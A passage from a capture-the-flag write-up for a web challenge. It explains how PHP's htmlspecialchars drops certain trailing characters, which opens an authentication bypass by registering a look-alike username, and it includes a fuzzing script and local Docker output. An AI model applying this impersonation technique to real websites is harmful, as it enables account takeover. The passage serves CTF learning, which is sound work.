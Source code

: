 We can try to register a username like `Firebird Chan<maybe_trimmed_character_here>`. Then, after logging in, because of function `htmlspecialchars`, maybe the last character will be trimmed and thus effectively authenticating as user `Firebird Chan`.

To test this, I'll create the following fuzzing PHP script and run it on the local testing environment:

```php
<?php
$username = "Firebird Chan";

for ($i=0; $i < 0xff + 1; $i++) { 
    $input = $username . chr($i);
    $afterEncoding = htmlspecialchars($input);

    if (strlen($afterEncoding) === strlen($username)) {
        echo "[+] Found a discrepancy! After HTML escaping: $afterEncoding | Hex character: " . dechex($i) . "\n";
    }
}

// check for unicode characters
for ($i=0x1000; $i < 0xffff + 1; $i++) { 
    $input = "Firebird Chan" . mb_chr($i, 'UTF-8');
    $afterEncoding = htmlspecialchars($input);

    if (strlen($afterEncoding) === strlen($username)) {
        echo "[+] Found a discrepancy! After HTML escaping: $afterEncoding | Character: " . dechex($i) . "\n";
    }
}
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Firebird-Chan's-Fanclub)-[2025.01.13|19:38:27(HKT)]
└> docker compose up -d
[...]
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Firebird-Chan's-Fanclub)-[2025.01.13|19:38:37(HKT)]
└> docker container ls
CONTAINER ID   IMAGE                             COMMAND                  CREATED          STATUS          PORTS                               NAMES
42e27deb1126   firebird-chans-fanclub-website    "docker-php-entrypoi…"   11 minutes ago   Up 11 minutes   0.0.0.0:80->80/tcp, :::80->80/tcp   firebird-chans-fanclub-website-1
[...]
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Firebird-Chan's-Fanclub)-[2025.01.13|19:38:46(HKT)]
└> docker cp ./fuzz.php 42e27deb1126:/var/www/html/fuzz.php
Successfully copied 2.56kB to 42e27deb1126:/var/www/html/fuzz.php
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Firebird-Chan's-Fanclub)-[2025.01.13|19:40:01(HKT)]
└> docker exec 42e27deb1126 php /var/www/html/fuzz.php
[+] Found a discrepancy! After HTML escaping: Firebird Chan | Character: d800
[+] Found a discrepancy! After HTML escaping: Firebird Chan | Character: d801
[+] Found a discrepancy! After HTML escaping: Firebird Chan | Character: d802
[...]
```
